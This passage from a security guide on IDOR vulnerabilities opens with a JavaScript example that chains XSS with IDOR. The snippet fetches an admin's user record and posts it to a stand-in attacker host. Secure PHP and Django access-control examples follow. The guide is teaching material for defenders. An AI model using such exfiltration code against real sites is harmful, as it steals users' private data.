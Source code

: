 #### IDOR + XSS Chain
```javascript
// Use XSS to exploit IDOR and extract data
fetch('/api/user/1')  // Admin user
    .then(response => response.json())
    .then(data => {
        // Exfiltrate admin data
        fetch('http://attacker.com/steal', {
            method: 'POST',
            body: JSON.stringify(data)
        });
    });
```

## 🛡️ Prevention & Mitigation

### 1. 🔒 Access Control Implementation

#### Secure Code Examples
```php
<?php
// Secure implementation with proper access control
function getUserData($requested_user_id) {
    $current_user_id = getCurrentUserId();
    $current_user_role = getCurrentUserRole();
    
    // Check if user can access this resource
    if ($current_user_id != $requested_user_id && $current_user_role != 'admin') {
        throw new UnauthorizedException("Access denied");
    }
    
    // Use parameterized query
    $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ? AND (id = ? OR ? = 'admin')");
    $stmt->execute([$requested_user_id, $current_user_id, $current_user_role]);
    
    return $stmt->fetch();
}
?>
```

```python
# Python/Django secure implementation
from django.contrib.auth.decorators import login_required
from django.core.exceptions import PermissionDenied
from django.shortcuts import get_object_or_404

@login_required
def get_user_profile(request, user_id):
    # Check if user can access this profile
    if request.user.id != user_id and not request.user.is_staff:
        raise PermissionDenied("You can only access your own profile")
    
    # Use Django ORM with proper filtering
    user = get_object_or_404(User, id=user_id)
    
    # Additional check at object level
    if not user.can_be_viewed_by(request.user):
        raise PermissionDenied("Access denied")
    
    return JsonResponse(user.to_dict())
```
